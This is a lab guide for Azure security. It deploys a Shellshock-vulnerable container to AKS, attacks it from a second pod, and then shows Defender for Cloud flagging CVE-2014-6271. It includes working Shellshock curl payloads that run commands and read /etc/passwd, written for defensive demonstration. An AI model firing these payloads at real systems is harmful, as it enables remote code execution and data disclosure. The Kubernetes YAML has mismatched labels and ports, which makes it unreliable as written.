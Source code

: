 # In this lab we will use a ShellShock vulnerable docker image from the Docker Hub, store it in the Azure ACR and from there deploy to Azure AKS

We will exploit Shell-Shock vulnerabilities to execute RCE from an attaker por running in the same cluster
Defender for Cloud will show this specific vulnerability once the image is pushed to the registry (SAST) and also once the container is deployed as a kubernetes pod within your cluster (runtime detection/DAST)

Login to your Azure ACR registry where you will push the vulnerable image

```
docker login [LOGINSERVER] –u [USERNAME] –p [PASSWORD]
```

Download the shellshock container to your local build machine

```
docker pull vulnerables/cve-2014-6271
```

Run the following commands to properly tag your images to match your ACR account name.

```
 docker tag  vulnerables/cve-2014-6271  [ACR-LOGINSERVER]/
 
 ```

 push docker image to ACR

```
 docker push [ACR-LOGINSERVER]/cve-2014-6271
 ```
In the Azure Portal, navigate to your ACR account, and select Repositories under Services on the left-hand menu

Defender for cloud will trigger the scan in the ACR registry to look for vulnerabilities in the image

Now, we will deploy a kubernetes pod using the shell-shock image stored in the ACR

Note we export the pod using the port 8080

As we will connect from another pod in the cluster to exploit RCE vulnerabilities of this container, we need to create a Kubernetes Service and map it to this deployment using match labels

```
apiVersion: v1
kind: Service
metadata:
  name: service-shell-shock
spec:
  type: ClusterIP  # ClusterIP is the default service type even if not specified
  selector:
    tag: shell-shock
  ports:
  - name: port8080
    protocol: TCP
    port: 8080  # this is the service port
    targetPort: 80 # this is the container port
```

```
apiVersion: apps/v1
kind: Deployment
metadata:
  name: shell-shock
spec:
  selector:
    matchLabels:
      app: shell-shock
  template:
    metadata:
      labels:
        app: shell-shock # the label for the pods and the deployments
    spec:
      containers:
      - name: shell-shock
        image: k8sgoatacr.azurecr.io/cve-2014-6271:latest # IMPORTANT: update with your own repository
        imagePullPolicy: Always
        ports:
        - containerPort: 8080 
```
Get the pods ip address using 

```
kubectl get pods -o wide
```

Enter into the shell-shock container

```
kubectl exec -it [shell-shock-pod] -- /bin/bash
````

And from the nginx pod in the cluster, we wille exploit RCE

```
kubectl exec -it [name-nginx-attacker-pod] -- /bin/bash
```

From here, issue commands to list /etc/passwd

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://[ip-address-shell-shock-pod]:80/cgi-bin/vulnerable
```
and
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'whoami'" http://[ip-address-shell-shock-pod]/cgi-bin/vulnerable
```

Now, wait for Defender to raise a recommendation under the ACR to resolve vulnerabilities found. This recommendation is part of SAST scanning, once the image has been pushed to the registry the sandbox will trigger the scan of vulnerabilities

![container-vul](/images/container-vuln.png)

Also, you may want to use the Cloud Security Explorer with the specific CVE-ID


![container-vuln-cloudsecexplorer](/images/container-vuln-cloud-sec-explorer.png)

From a DAST, vulnerable images can also be scanned by the runtime detection capabilities of Defender. Look for a recommendation like 'Running container images should have vulnerability findings resolved' and search for the specific CVE-ID of Shellshock

![running-container-vuln](/images/running-vulnerable-container.png)
 